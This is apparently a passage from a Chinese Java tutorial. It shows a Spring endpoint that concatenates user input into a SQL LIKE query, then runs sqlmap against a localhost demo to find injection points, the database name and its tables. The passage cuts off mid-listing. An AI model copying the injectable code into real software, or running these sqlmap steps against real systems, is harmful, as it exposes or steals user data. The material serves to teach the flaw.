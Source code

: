 @Autowired
private JdbcTemplate jdbcTemplate;

//用户模糊搜索接口
@PostMapping("jdbcwrong")
public void jdbcwrong(@RequestParam("name") String name) {

    //采用拼接SQL的方式把姓名参数拼到LIKE子句中
    log.info("{}", jdbcTemplate.queryForList("SELECT id,name FROM userdata WHERE name LIKE '%" + name + "%'"));

}


使用 sqlmap 来探索这个接口：

python sqlmap.py -u  http://localhost:45678/sqlinject/jdbcwrong --data name=test



一段时间后，sqlmap 给出了如下结果：



可以看到，这个接口的 name 参数有两种可能的注入方式：一种是报错注入，一种是基于时间的盲注。

接下来，仅需简单的三步，就可以直接导出整个用户表的内容了。

第一步，查询当前数据库：

python sqlmap.py -u  http://localhost:45678/sqlinject/jdbcwrong --data name=test --current-db



可以得到当前数据库是 common_mistakes：

current database: 'common_mistakes'



第二步，查询数据库下的表：

python sqlmap.py -u  http://localhost:45678/sqlinject/jdbcwrong --data name=test --tables -D "common_mistakes"



可以看到其中有一个敏感表 userdata：

Database: common_mistakes

[7 tables]

+--------------------+

| user               |

| common_store       |

| hibernate_sequence |

| m                  |

| news               |
